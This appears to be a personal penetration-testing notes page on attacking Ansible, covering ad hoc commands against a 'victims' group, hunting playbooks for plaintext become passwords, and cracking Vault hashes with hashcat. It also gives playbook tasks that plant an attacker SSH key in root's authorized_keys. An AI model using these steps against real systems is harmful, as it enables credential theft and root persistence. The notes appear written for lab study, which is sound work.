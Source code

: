 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible
code {
    border: 1px solid $grey-color-light;
    border-radius: 3px;
    background-color: #eef;
}

<pre>
  <code class="ruby">
    puts "hello"
  </code>
</pre>

#### Commands
_Ansible_ is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in `/etc/ansible/hosts`.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run `whoami` on all members of the Ansible group. To run it as root `ansible victims -a "whoami" --become` or specify the user `ansible victims -a "whoami" --become user2`.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in _/opt/playbooks_ to see if there's any info leakage.
I.E.
```YAML
---
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```

Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```

Copy the hash starting with "$ANSIBLE_VAULT......." and use _ansible2john_ to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```

to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```

Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```

Also, some modules from Ansible might leak data in /var/log/syslog (I.E. shell module)
